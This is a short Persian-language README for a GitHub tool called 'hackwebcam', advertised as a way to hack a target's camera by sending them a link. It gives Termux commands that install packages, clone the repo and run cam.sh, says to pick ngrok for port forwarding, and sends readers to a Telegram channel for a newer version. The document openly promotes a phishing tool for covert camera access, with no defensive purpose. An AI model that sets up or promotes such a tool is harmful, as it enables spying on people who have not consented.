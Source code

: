 # hackwebcam
<h4>
 
این اسکریپت و اسکریپت های دیگر هک دوربین به دلیل مشکلات پورت فرواردینگ از کار افتاده اند، خوشبختانه اسکریپت جدید و پیشرفته تری تهیه کردیم که در کانال میتونید اون رو دریافت کنید:

https://t.me/HACKGM/10254

</h4>

<br>
ابزار هک دوربین با ارسال لینک به قربانی - Camera hacking tool by sending link to target


1- https://github.com/HACKGM/cam/blob/master/on-hotspot.png نقطه اتصال گوشی رو روشن کنید

2- Download termux ترموکس رو دانلود کنید

کد های زیر رو بزنید تا ابزار اجرا بشه

3-

apt update && apt upgrade && pkg install wget php git openssl curl && git clone https://github.com/HACKGM/cam && cd cam && bash cam.sh


سپس گزینه 2 یعنی همون
 ngrok
رو بزنید برای پورت فراوردینگ

در صورت داشتن هرگونه سوال به ادمین کانال مراجعه کنید: http://t.me/hackgm
